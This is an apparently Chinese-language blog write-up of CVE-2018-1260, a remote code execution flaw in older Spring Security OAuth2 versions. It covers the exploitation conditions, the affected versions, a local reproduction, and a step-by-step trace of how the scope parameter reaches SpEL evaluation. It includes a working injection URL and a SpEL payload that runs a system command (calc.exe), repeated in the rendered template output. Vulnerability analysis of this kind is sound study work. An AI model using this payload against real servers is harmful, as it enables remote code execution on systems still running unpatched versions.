 ```yaml
---
layout: mypost
title: Spring Security OAuth2 远程代码执行漏洞(CVE-2018-1260)
categories: [漏洞分析]
---
```


## **一：漏洞简介**

在Spring Security OAuth 2.x老的版本中，恶意用户可以向授权服务器发起授权请求，当转发至授权审批终端（Approval Endpoint）时，会导致远程代码执行漏洞的攻击。

## 二：**利用条件**

1、被攻击端作为授权服务器时（如使用了注解）

2、使用了默认审批终端，或重写的审批终端逻辑中使用等对输出内容进行SPEL表达式解析

3、未配置Scopes

## 三：**影响版本**

Spring Security OAuth 2.3到2.3.2

Spring Security OAuth 2.2到2.2.1

Spring Security OAuth 2.1到2.1.1

Spring Security OAuth 2.0到2.0.14

## 四：**漏洞复现**

使用github上已有的demo：https://github.com/wanghongfei/spring-security-oauth2-example

Clone下来后导入idea待全部依赖下载完成。

然后修改cn/com/sina/alan/oauth/config/OAuthSecurityConfig.java中的第67行为：

```
@Override
    public void configure(ClientDetailsServiceConfigurer clients) throws Exception {
       clients.inMemory()
                .withClient("client")
                .authorizedGrantTypes("authorization_code")
                .scopes();
    }
```

然后根据github中的readme中的介绍操作数据库相关（包括：创建库、创建表、添加数据等等）

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_1.png)

然后修改application.properties中的mysql数据库相关的信息。

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_2.png)

然后启动环境并访问：

```
http://localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/chybeta&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D
```

会重定向到登陆页面，随便输入用户名密码后点击登陆

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_3.png)

触发payload:

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_4.png) 



## 五：漏洞分析

Spring Security OAuth在org.springframework.security.oauth2.provider.endpoint.AuthorizationEndpoint对用户的认证请求进行处理，其中对应的URL是@RequestMapping({"/oauth/authorize"})，其中有一处关键的地方是在于this.oauth2RequestValidator.validateScope(authorizationRequest, client);，此代码是用于对用户传入的scope进行认证。通过动态分析来分析对scope的认证过程以及绕过方法。

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_5.png)

跟踪进入到org.springframework.security.oauth2.provider.request.DefaultOAuth2RequestValidator:validateScope()方法中，代码如下：

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_6.png)

调用的是DefaultOAuth2RequestValidator的私有validateScope()方法

其中的参数如下：

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_7.png)

通过动态调试发现，`requestScopes`是传入的rce的payload，是`${T(java.lang.Runtime).getRuntime().exec("calc.exe")}`不为null，而`clientScopes`是我们在搭建环境时在`OAuthSecurityConfig`设置的，值为空。所以在这里我们就绕过了`validateScope()`的检测。

最后我们回到主函数`@RequestMapping({"/oauth/authorize"})`中，最终出现会进入到121行中的`return this.getUserApprovalPageResponse(model, authorizationRequest, (Authentication)principal);`中。跟踪`getUserApprovalPageResponse()`进入到`org.springframework.security.oauth2.provider.endpoint.AuthorizationEndpoint:getUserApprovalPageResponse()`

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_8.png)

当执行到`new ModelAndView(this.userApprovalPage, model);`时，此时的各项参数如下所示：

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_9.png)

所以程序内部会跳转到forward:/oauth/confirm_access。

继续执行，执行到org.springframework.security.oauth2.provider.endpoint.WhitelabelApprovalEndpoint:getAccessConfirmation()。getAccessConfirmation()对forward:/oauth/confirm_access进行响应处理。

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_10.png)

进入到创建模板函数createTemplate()中

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_11.png)

其中model和request的参数信息如下：

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_12.png)

根据参数信息，函数会执行到`template = template.replace("%scopes%", this.createScopes(model, request)).replace("%denial%", "");`，跟踪`this.createScopes()`进一步分析。

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_13.png)

函数的工作很明确，获取到scopes的内容拼接成为字符串返回。最终得到的builder.toString()的结果是：

```
<ul><li><div class='form-group'>scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}: <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='true'>Approve</input> <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='false' checked>Deny</input></div></li></ul>
```

返回到createTemplate()函数中，最终template()返回的结果是:

```
<html><body><h1>OAuth Approval</h1><p>Do you authorize '${authorizationRequest.clientId}' to access your protected resources?</p><form id='confirmationForm' name='confirmationForm' action='${path}/oauth/authorize' method='post'><input name='user_oauth_approval' value='true' type='hidden'/><input type='hidden' name='${_csrf.parameterName}' value='${_csrf.token}' /><ul><li><div class='form-group'>scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}: <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='true'>Approve</input> <input type='radio' name='scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}' value='false' checked>Deny</input></div></li></ul><label><input name='authorize' value='Authorize' type='submit'/></label></form></body></html>
```

可以看到在template模板中已经携带有我们的payload，`scope.${T(java.lang.Runtime).getRuntime().exec("calc.exe")}`。

执行完`createTemplate()`函数之后，程序回到`getAccessConfirmation()`中，程序最后执行到`return new ModelAndView(new SpelView(template), model);`

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_14.png)

进入到new SpelView(template)中，new SpelView()会对template中的spel表达式解释执行最终造成rce。

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_15.png)

`Expression expression = SpelView.this.parser.parseExpression(name);`会对template中的内容进行解析包括scope，最终造成rce。

![](/Users/artio/Desktop/Java安全/学习/images/CVE-2018-1260_16.png)

## 六：参考链接

[**https://blog.spoock.com/2018/05/13/cve-2018-1260/**](https://blog.spoock.com/2018/05/13/cve-2018-1260/)

## 七：个人github

https://artio-li.github.io/

